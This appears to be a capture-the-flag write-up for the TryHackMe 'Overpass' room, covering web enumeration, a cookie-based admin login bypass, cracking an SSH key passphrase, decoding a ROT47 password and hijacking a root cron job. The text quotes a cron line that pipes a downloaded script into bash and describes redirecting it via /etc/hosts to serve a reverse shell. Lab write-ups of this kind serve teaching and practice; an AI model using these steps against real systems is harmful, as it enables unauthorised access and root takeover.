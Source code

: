 # Overpass

[<img src=".Images/overpass.png" height="199">](https://tryhackme.com/room/overpass)

*'What happens when some broke CompSci students make a password manager?'* - [NinjaJc01](https://tryhackme.com/p/NinjaJc01)

Difficulty: *Easy*

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******
## [Scan/Enumeration]

Let's start with nmap scan.

[overpass-1](.Images/overpass-1.png)

We have SSH on 22 and HTTP on 80. I'm checking web pages source codes. In index.html source codes I find this comment: 

`<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->`

So I think they are probably using 'Ceaser Cipher'. We have a /download directory with some files, I decide to leave them here to look at them later. Other directory is /aboutus, in this directory i can't find anything but possible usernames. I also check main.js but it's only have 'hello world!'. So I'm doing gobuster scan.

[overpass-2](.Images/overpass-2.png)

## [Gain Shell]

We found /admin directory. In this directory source codes we can see login.js file and when we look at that we can see: if our cookie is "Incorrect credentials" we cant log in but else it is set our 'SessionToken' to our value and we can log in. So I'm open my browser developer tools and set a 'SessionToken' with 'gev' value. After that I refresh the page and I'm logged in.

[overpass-3](.Images/overpass-3.png)

Now we have encrypted id_rsa key. We can crack it with john and rockyou.txt.

[overpass-4](.Images/overpass-4.png)

For use this id_rsa we need set privilege with `chmod 600 id_rsa`. Now we know the password for id_rsa but we don't know this file is which user's. I'm trying all name on the about page but no one is work and I try to use the name on the password...

[overpass-5](.Images/overpass-5.png)

## [Privilege Escalation]

In james home directory, we have a todo file and its inculudes this: `Write down my password somewhere on a sticky note so that I don't forget it. Wait, we make a password manager. Why don't I just use that?`. When we do `ls -la` on james directory we can see .overpass file and now we know this file have james password and we can use this password for sudo privilege. We knew that, they are using 'Ceaser Cipher'. This cipher means 'It is a type of substitution cipher in which each letter in the plaintext is replaced by a letter some fixed number of positions down the alphabet.' Also usually this cipher is used as ROT13 and variants today. I'm taking this text and try to solve with two most popular ROT variants: ROT13 and ROT47. And the ROT47 is solve.

[overpass-6](.Images/overpass-6.png)

When we try to `sudo -l` command with this password we see we don't have sudo privilege. LOL. So let's check suid files.

`find / -perm -4000 2>/dev/null`

Nothing interesting. I check again todo.txt and i see james talking about some automated scripts. It can be a cron job, and we can see it `/etc/crontab`.

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

This mean, every seconds root user take overpass.thm/downloads/src/buildscript.sh and run it with bash. If we can edit this buldscript.sh we can gain shell as root.But there is no www directory in the /var directory so can be this server in /root directory and we cant access that. But as you can see it is using overpass.thm hostname for curl command so on linux system we can edit hosts in /etc/hosts file. Before that I create downloads/src/buildscript.sh with reverse shell and open a server with python. When i edit the /etc/hosts file:

[overpass-7](.Images/overpass-7.png)



